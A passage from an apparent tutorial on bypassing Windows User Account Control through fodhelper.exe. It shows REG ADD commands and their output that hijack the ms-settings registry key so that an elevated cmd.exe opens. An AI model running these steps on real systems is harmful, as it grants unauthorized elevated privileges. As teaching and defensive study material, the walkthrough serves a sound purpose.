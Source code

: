 ```c
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

```

If the code looks a bit boring, a simple 3-step PowerShell script can do the same thing.

### Using Powerhsell

As `fodhelper.exe` checks the `HKCU\Software\Classes\ms-settings\Shell\Open\Command` key in the registry, the PowerShell `REG` utility can be used to add this registry key.

```plaintext
PS C:\Users\ACER> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
The operation completed successfully.
PS C:\Users\ACER>
```

Since `fodhelper.exe` looks for the default value data to be an executable file, setting it to `cmd.exe` will work.


``` plaintext
PS C:\Users\ACER> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
The operation completed successfully.
PS C:\Users\ACER>
```

`fodhelper.exe` also checks for the `DelegateExecute` value in the same registry key. This value can be added with empty data using the following command:

```plaintext
PS C:\Users\ACER> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f
The operation completed successfully.
PS C:\Users\ACER>
```

After successfully adding all the necessary registry keys, values, and data, executing `fodhelper.exe` will bypass UAC. Since `cmd.exe` has been set, a Command Prompt with elevated privileges should appear.

![fodhelper.exe](/assets/img/UAC_bypass_using_fodhelper/Executing_fodhelper.png)
